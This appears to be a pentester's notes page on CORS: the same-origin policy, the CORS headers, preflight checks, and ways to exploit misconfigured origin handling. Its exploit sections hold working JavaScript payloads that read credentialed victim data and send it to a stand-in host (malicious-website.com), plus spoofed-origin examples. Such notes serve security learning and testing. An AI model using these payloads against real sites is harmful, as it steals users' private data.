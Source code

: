 # CORS

<details>

<summary>Same-origin policy (SOP)</summary>

* The same-origin policy restricts scripts on one origin from accessing data from another origin.

<!---->

* An origin consists of a URI scheme, domain and port number.

<!---->

* The SOP prevents a malicious website from running JS in a browser to read data from a third-party website. (There are various exceptions)

<!---->

* The SOP allows embedding of images via the `<img>` `<video>` `<script>`.
  * However, while these external resources can be loaded by the page, any JavaScript on the page won't be able to read the contents of these resources.

</details>

<details>

<summary>Cross-origin resource sharing</summary>

The cross-origin resource sharing specification provides controlled relaxation of the same-origin policy. The CORS specification identifies a collection of protocol headers

* `Origin` header added by the browser.
  * ```
    Origin : https://normal-website.com
    ```
* `Access-Control-Allow-Origin` returned by a server when a website requests a cross-domain resource.
  * ```http
    Access-Control-Allow-Origin: https://normal-website.com
    ```

This means that the browser will allow code running on normal-website.com to access the response because the origins match.

Note: `Access-Control-Allow-Origin` is returned only if the whitelisted values or `*` or `null` matched the Origin.



**Access-Control-Allow-Origin: \***

The use of the wildcard `*` is restricted in the specification as you cannot combine the wildcard with the cross-origin transfer of credentials (authentication, cookies or client-side certificates). This following response is not permitted

```http
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
```



**Access-Control-Allow-Origin: null**

Specifies that only origins with a `null` origin are allowed to access the resource. Browsers might send the value `null` in the Origin header in various unusual situations:

* Cross-origin redirects.
* Requests from serialized data.
* Request using the `file` protocol.
* Sandboxed cross-origin requests.

</details>

<details>

<summary>Pre-flight checks</summary>

Under certain circumstances, when a cross-domain request includes a non-standard HTTP method or headers, the cross-origin request is preceded by a request using the OPTIONS method.

For example, this is a pre-flight request that is seeking to use the PUT method together with a custom request header called Special-Request-Header

```http
OPTIONS /data HTTP/1.1
Host: <some website>
...
Origin: https://normal-website.com
Access-Control-Request-Method: PUT
Access-Control-Request-Headers: Special-Request-Header
```

```http
HTTP/1.1 204 No Content
...
Access-Control-Allow-Origin: https://normal-website.com
Access-Control-Allow-Methods: PUT, POST, OPTIONS
Access-Control-Allow-Headers: Special-Request-Header
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 240
```

* This response sets out the allowed methods (PUT, POST and OPTIONS) and permitted request headers (Special-Request-Header). In this particular case the cross-domain server also allows the sending of credentials (authentication, cookies or client-side certificates), and the Access-Control-Max-Age header defines a maximum timeframe for caching the pre-flight response for reuse
* More info about preflight: https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#preflighted\_requests

</details>

## <mark style="color:yellow;">**Server-generated ACAO header from client-specified Origin header**</mark>

Some app read the Origin header from requests and including a response header stating that the requesting origin is allowed.

Detection&#x20;

Send request with `Origin: https://example.com` and see if the origin is reflected in the `Access-Control-Allow-Origin` header.

Exploit

```html
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
</script>
```

## <mark style="color:yellow;">**Errors parsing Origin headers**</mark>

* Some apps enable access from various sources through a whitelist of permitted origins
* Suppose `normal-website.com`
* Use as origin: `hackersnormal-website.com` or `normal-website.com.evil-user.net`

{% hint style="info" %}
**Note**: you need to know the whitelisted origins.
{% endhint %}

***

## <mark style="color:yellow;">**Whitelisted null origin value**</mark>

Detection

Send request with `Origin: null` and see if the response has `Access-Control-Allow-Origin: null`

Exploit

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='https://malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

## <mark style="color:yellow;">Exploiting XSS via CORS trust relationships</mark> <a href="#exploiting-xss-via-cors-trust-relationships" id="exploiting-xss-via-cors-trust-relationships"></a>

Suppose that:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

If you find an XSS on `subdomain.vulnerable-website.com` inject JavaScript that uses CORS and retrieve information.

```
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```
